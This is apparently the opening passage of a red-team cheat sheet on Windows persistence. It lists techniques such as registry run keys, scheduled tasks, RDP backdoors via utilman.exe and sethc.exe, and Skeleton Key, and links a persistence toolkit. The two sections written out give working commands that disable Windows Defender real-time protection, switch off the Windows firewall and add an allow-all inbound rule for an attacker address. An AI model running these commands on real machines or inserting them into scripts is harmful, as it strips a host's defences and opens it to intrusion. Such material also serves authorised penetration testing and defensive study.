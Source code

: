 # Windows - Persistence

## Summary

* [Tools](#tools)
* [Disable Windows Defender](#disable-windows-defender)
* [Disable Windows Firewall](#disable-windows-firewall)
* [Simple User](#simple-user)
    * [Registry HKCU](#registry-hkcu)
    * [Startup](#startup)
    * [Scheduled Tasks User](#scheduled-tasks-user)
    * [BITS Jobs](#bits-jobs)
* [Serviceland](#serviceland)
    * [IIS](#iis)
    * [Windows Service](#windows-service)
* [Elevated](#elevated)
    * [Registry HKLM](#registry-hklm)
        * [Winlogon Helper DLL](#)
        * [GlobalFlag](#)
    * [Services Elevated](#services-elevated)
    * [Scheduled Tasks Elevated](#scheduled-tasks-elevated)
    * [Binary Replacement](#binary-replacement)
        * [Binary Replacement on Windows XP+](#binary-replacement-on-windows-xp)
        * [Binary Replacement on Windows 10+](#binary-replacement-on-windows-10)
    * [RDP Backdoor](#rdp-backdoor)
        * [utilman.exe](#utilman.exe)
        * [sethc.exe](#sethc.exe)
    * [Skeleton Key](#skeleton-key)
* [References](#references)


## Tools

- [SharPersist - Windows persistence toolkit written in C#. - @h4wkst3r](https://github.com/fireeye/SharPersist)

## Disable Windows Defender

```powershell
sc config WinDefend start= disabled
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Disable Windows Firewall

```powershell
Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off

# ip whitelisting
New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP
```
